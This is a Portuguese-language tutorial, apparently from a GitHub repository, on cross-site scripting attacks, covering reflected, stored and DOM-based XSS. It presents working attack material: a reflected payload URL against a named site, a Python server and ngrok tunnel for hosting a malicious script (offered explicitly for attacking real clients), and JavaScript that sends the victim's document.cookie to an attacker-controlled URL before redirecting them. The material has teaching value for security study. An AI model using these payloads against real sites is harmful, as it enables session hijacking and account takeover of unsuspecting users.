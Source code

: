 # Cross-Site Scripting (XSS) - Atacando o Cliente 💀


## Reflected XSS 🪞

Quando o conteúdo do parametro da url está sendo refletido no HTML da página de forma insegura, sem tratamentos, chamamos de Reflected XSS.
Podemos encontrar outros métodos de XSS, como:

- storage XSS: Ou XSS persistente é quando a aplicação guarda o conteúdo malicioso dentro do banco de dados e sempre mostra o mesmo em alguma página;
- XSS DOM: Quando o JavaScript da própria aplicação trata de forma insegura alguma entrada/parametro da url;


## Capturando Cookies 🍪
Podemos utilizar o XSS para sequestrar os cookies do client para conseguirmos realizar login sem mesmo precisar das credenciais.

O método abaixo pode nos resultar nos cookies do cliente ou não, dependendo se a flag `HttpOnly` estiver ativada ou não:

    http://www.bancocn.com/cat.php?id=2'<script>alert(document.cookie)</script>

#### Verificando Políticas do Site

Podemos verificar se através das Headers que o site envia, ele está ou não sujeito a receber scripts externos através da
[OWASP](https://www.owasp.org/www-project-secure-headers/#content-security-policy)

O Header `Content-Security-Policy` dita algumas regras na aplicação, como se ela pode executar scripts externos vindos de outros sites ou scripts diretamente do HTML por exemplo.

<br/>

Criando o servidor que irá conter o script malicioso:
```python
python3 -m http.server
```

Podemos também, utilizar o [ngrok](https://www.ngrok.com) para criarmos um túnel de acesso ao nosso servidor para o público, assim possibilitando o ataque em clients reais.

Criando o script malicioso:
```javascript
// criando uma imagem na tela que irá gerar uma requisição JS.
new Image().src = "<url do servidor>/?" + document.cookie
// redirecionar o client para a raíz do site e não mostrar o erro de SQL.
window.location = "/"
```

Assim podemos chamar nosso servidor e o script diretamente pelo navegador:

    http://www.bancocn.com/cat.php?id=2'<script src="<url do nosso servidor>/script.js"></script>
